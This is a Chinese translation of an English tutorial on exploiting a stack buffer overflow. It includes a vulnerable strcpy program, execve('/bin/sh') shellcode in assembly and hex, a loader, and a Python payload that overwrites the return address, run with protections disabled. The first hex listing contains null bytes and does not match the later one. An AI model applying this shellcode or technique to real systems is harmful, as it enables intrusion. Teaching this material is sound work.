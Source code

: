 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/XDsqlqvpcVfwKZgXoO1Q4w)

  

> 这个文章是内存马的原理
> 
> 文章译自 https://medium.com/@jain.sm/shell-code-exploit-with-buffer-overflow-8d78cc11f89b

继续上一篇文章[《栈上函数的生命周期》](http://mp.weixin.qq.com/s?__biz=MzU4NjY0NTExNA==&mid=2247486129&idx=1&sn=b81ba4b01404d789790ba274fd79f955&chksm=fdf961a4ca8ee8b25da1f1794ad87135fa6ac1c10dcacf716bba67c7d81874722e3d883983ea&scene=21#wechat_redirect)，这里解释一下如何利用堆栈上的缓冲区溢出的漏洞

这是一种利用漏洞来破坏内存并转移程序的正常执行流程。这基本上是通过控制`EIP`来实现的。

我们先从缓冲区溢出非常基本的理解开始。缓冲区溢出是程序编写者忘记对缓冲区大小进行有界检查的情况，这使得攻击者能够放入超过缓冲区所能容纳的数据。然后，这些数据会溢出到相邻的内存区。作为上一篇文章中解释的堆栈布局的一个示例，如果存在漏洞，则可以使缓冲区溢出写入到保存返回地址的内存单元。

看下面的例子：

```
void copyData (char* data){ char buff[10]; strcpy(buff,data);}int main (int argc, char *argv[]){ copyData(argv[1]); return 0;}
```

函数`copyData`的参数是一个字符串，并调用`strcpy`把参数拷贝到一个缓冲区。

像上一篇文章讨论那样，对`copyData`的调用会进行如下操作：

1.  把返回地址压入栈中
    
2.  把`ebp`的值压入栈中（这时`ebp`的值指向`main`函数这一桢）
    
3.  在栈上分配 10 个字节的空间给局部变量
    

现在，如果我们尝试以覆盖栈上的返回地址方式进而改变`EIP`的方式溢出缓冲区，我们会得到一个`coredump`文件，里面会包含栈崩溃的消息。

![](https://mmbiz.qpic.cn/mmbiz_png/QXsgGBUcicbwiaOxtzyfSWlJLcTLz446RejL5gthzFPW2rHUZBlc39R71Zj9QthEHmetm3hsZtiaNb79QE7MPUlew/640?wx_fmt=png)

img

当`EIP`被垃圾字符填充，产生`coredump`时，就会发生这种情况。堆栈如下所示

![](https://mmbiz.qpic.cn/mmbiz_png/QXsgGBUcicbwiaOxtzyfSWlJLcTLz446ReVA2zVTzCNWfxIRAThh7osnFp5Bp3ZiaOyLa7gMoNlEGDLn1CpCETfnQ/640?wx_fmt=png)

img

对于这个例子，我们会关闭`ASLR`(地址空间布局随机化)，使用`gcc`的`-fno-stack-protector`编译选项和`-zexecstack`标志。这样做是为了展示利用漏洞。否则，堆栈、堆和数据段将成为不可执行的，因此不能从那里运行任何代码。此外，在启用`ASLR`的情况下，确定`shellcode`将在运行时加载的地址变得更加困难。

> 译者注：
> 
> 二进制防护的手段主要是这样
> 
> 1.  栈的安全 cookie，主要是通过`-fstack-protector`
>     
> 2.  `SEH`(结构化异常处理)，`windows`机制，在栈上维护一个单链表，一旦检测到栈损坏，请调用相应的处理函数
>     
> 3.  `DEP`（防止数据段执行），有从硬件角度和软件角度实现，但系统也会提供接口来修改段属性。
>     
> 4.  `VEH`（向量异常处理），`windows`机制，一般用在堆上，防止堆损坏，而且处理优于`SEH`。`Linux`一直没有相应机制，导致堆块损坏的崩溃问题非常难定位
>     
> 5.  `ASLR`（地址空间布局随机化），同一程序每次启动一个进程，加载库的基地址都不一样，从而比较难预测。上面四种机制针对缓冲区溢出时`shellcode`在堆和栈上执行的问题，但无法防护`ROP`(面向返回地址编程) 攻击手段，`ASLR`是针对`ROP`攻击的。
>     

为了解释简单的`shellcode`，我们将用汇编语言编写一小段代码。

我们以执行系统调用编号 59 的汇编代码为例。系统调用号 59 是 sys_execve 调用，并接受执行程序 (在下面的示例中为`/bin/sh`) 作为输入参数。

```
global _start
section .text
_start:
        xor rax, rax 
        push rax 
        mov rdx, rsp 
        mov rbx, 0x68732f6e69622f2f
        push rbx 
        mov rdi, rsp 
        push rax 
        push rdi 
        mov rsi,rsp
        add rax, 59
        syscall
```

编译这段汇编来产生一个执行文件。

```
nasm -felf64 shell.asm -o shell.o
ld shell.o -o shell
```

从这里，我可以通过`objdump`工具来产生`shellcode`，这样做是为了删除可能被解释为空终止符的错误字符，如 \ x00。

```
objdump -M Intel -d ./shell |grep ‘[0–9a-f]:’|grep -v ‘file’|cut -f2 -d:|cut -f1–7 -d’ ‘|tr -s ‘ ‘|tr ‘\t’ ‘ ‘|sed ‘s/ $//g’|sed ‘s/ /\\x/g’|paste -d ‘’ -s |sed ‘s/^/”/’|sed ‘s/$/”/g’
```

`shellcode`产生如下

```
“\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05”
```

这段`shellcode`会作为字符串被接下来的程序来加载。

我们现在写一段简单的`C`程序用来加载和执行`shellcode`。在这个例子下，函数`shell_pwn`加载和执行`shellcode`. 这里我们展示如何通过指定输入来溢出函数`copytobuffer`函数的缓冲区。这个输入精心构造可以改变返回地址，使得它指向`shell_pwn`函数。

`flow.c`:

```
#include <string.h>#include <stdlib.h>void shell_pwn(){    const char code[] =    “\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05”;    //const char shellcode[] = “\x90”;    ////printf(“Shellcode Length: %d\n”, (int)strlen(code));    ////((void(*)(void))code)();    int (*ret)() = (int(*)())code;    ret();    exit(0);}int copytobuffer(char* input){    char buffer[15];    strcpy (buffer,input);    return 0;}void main (int argc, char *argv[]){    int local_variable = 1;    copytobuffer(argv[1]);    exit(0);}
```

下面截图，我们会用`gdb`来确定`shell_pwn`函数的地址

![](https://mmbiz.qpic.cn/mmbiz_png/QXsgGBUcicbwiaOxtzyfSWlJLcTLz446Re7zJmFvicwA8yXdicvFwa1kd7OJuNUz7e0NoUeaibH2WdwESmDToBUfIQA/640?wx_fmt=png)

img

![](https://mmbiz.qpic.cn/mmbiz_png/QXsgGBUcicbwiaOxtzyfSWlJLcTLz446ReGTKiadKict7Sk7fGQyHboAwNR1bD7CibJlvn4Evu9ENqWAAQaPJ6nibXdA/640?wx_fmt=png)

img

我们可以看到`shell_pwn`函数的地址是`0x400566`。我们使用一个`python`程序产生输入来溢出缓冲区，并且让栈上的返回地址指向`shell_pwn`函数

```
#!/usr/bin/pythonfrom struct import *buffer = ''buffer += 'a'*24buffer += pack("<Q",0x0000000000400566)f = open("input2.txt", "w")f.write(buffer)
```

一旦完成，我们就可以看到，使用上面的输入执行了二进制流，就能够通过覆盖堆栈上的返回地址在程序内部执行 shell。

![](https://mmbiz.qpic.cn/mmbiz_png/QXsgGBUcicbwiaOxtzyfSWlJLcTLz446ReSxogxsCrlf7JoZKL3AdBusaaMKiaibSqgqd659I265GfKBmDJwd8j07w/640?wx_fmt=png)

img

在接下来的文章中，我们将看到更多的缓冲区溢出攻击，比如创建绑定外壳或反向外壳。我们还将查看是否可以使用`Metasploit`模块生成`shellcode`。